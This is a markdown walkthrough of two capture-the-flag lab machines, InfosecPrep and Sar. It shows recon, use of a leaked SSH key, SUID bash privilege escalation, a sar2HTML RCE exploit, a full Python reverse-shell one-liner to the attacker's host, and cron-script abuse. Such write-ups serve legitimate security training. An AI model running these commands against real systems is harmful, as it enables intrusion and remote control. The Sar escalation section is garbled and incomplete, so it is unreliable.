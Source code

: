 # Machine: InfosecPrep

- Vulnerability: Privilege Escalation

- The severity of the issue: Meduim

- Description :

with the vulnerability, an attacker can gain unauthorized privileged access to a system

- Reproduction :

Going to our browser with the provided ip_add

With it (IP Address of the machine) the first thing got in mind is to grab a series of ports with the use of Nmap

	nmap -a ip_add
	
	port => 80, 22 (good)!
  
Then with The help of Nikto, we can scan web servers for known vulnerabilities 

	nikto -host ip_add
  

After that we've some directories we've tested the common robots.txt which tells the search engines which directories not to enter :
 
	ip_add/robots.txt
	
	output -> /secret.txt
  
This seems like an interesting place to visit, after that we've got a text seems like a base64 encoded file with the equal sign the end first guess i thought let's decoded it
 
	wget ip_add/secret.txt ; cat secret.txt ; base64 -d > ssh_key.txt 
 
This is actually a private key and based on our previous scan we've noticed a port for ssh connection 22 
 
then we thought why not connect with the user 'oscp' and the host ip_add using the private key after changing their permissions (Secure) : 
 
	chmod 600 ssh_key.txt ; ssh -i ssh_key.txt user@ip_add -p 22 
 
Bingo we've login and we've got our first flag called local;
 

Let's scan with a tool just trying to search for possible and available exploits i'm using Linpeas :

	wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh ; chmod +x linpeas.sh ; ./linepeas 

though the scan of Linepeas we've noticed a suid in the bash builtin command (indicates that the file has the setuid bit set) which means we can gain access through a ;

	/bin/bash -p
	whoami 
	
with the -p option through some googling it turns up it's a bug that allows the default shell to run with SUID privileges meaning that we have permission to run with the owner privilege


I gain access and i become a root

	cd /root/ ; cat proof.txt
	
Done!

# Resources:

https://gtfobins.github.io/gtfobins/bash/

man nmap, nikto

https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS 



# Machine: Sar

- Vulnerability: Remote Code Execution (RCE)

- The severity of the issue: High

- Description :

an attacker can remotely execute commands on someone else's computing device

- Reproduction :

Going to our browser with the provided ip_add, it's a default page for the Apache2 server i've read and it has nothing

As always the first thing got in mind is to grab a series of ports with the use of Nmap

	nmap -a ip_add
	
	we've got only an open port for http communication 80

  
testing our robots.txt:
 
	ip_add/robots.txt

It has a directory for sar2HTML i enter, and i've read the full page and i got no idea the first thing i did is to google the name of sar2HTML, and it turns up it a command execution and i've looked for the verified one using in exploit-db :

	searchsploit sar2HTML
	
the exploit is a python script i creat a rce.py file that has the script, good!

i've run the script and i required the url, i've to give him the url with the sar2HTML path;

	python3.9 rce.py
	
	url -> http://ip_add/sar2HTML/

then i require a command ;

	cmd => ls
	
good we've got for ourselves a remote code execution, since we're dealing with rce it would be useful to use the reverse shell in order to communicate (i'll be using python3 (already checked if it exists)):

	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("My_machine_ip_add",Port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
	
	-c option to run full syntaxes in single line

on the other side, i'm listing through the port i've specified early 
 
	ncat -lvp 1010


with both we've got for ourselves a connection with the victim machine, based on the other machine starting our search for a flag maybe called local.txt;

	find / -type f -name local.txt 2> /dev/null
	
bingo we've got a flag good

for this part i'm back to my favorite tool Linpeas :

	./linepeas 

we've noticed a crontab runnign every 5 min */5 with sudo priviliege located in /var/www/html/finally.sh ;

	ls -la ; cat ./finally.sh
	
noticed that we don't have permission to modify on the finally script but he can run the write.sh that we have privileges so why not modify it to become ;


	touch output.txt ; chmod 777 output.txt
	cd /root/ ; ls -la >  output.txt
	

since the output always shows up at the root machine i thought to redirect it to a file after playing the waiting game for 5 min the script runs successfully and i was able to see the file in the root directory 


since we've soul the files, i've modified the file to output anything to my file ;


	cd /root/ ; ls -la >  output.txt  
	

	

# Resources:
as always man pages for the tools i've used

https://www.exploit-db.com/exploits/49344

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/655cec1f1a438fa611777deedd2a19a26aff8485/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
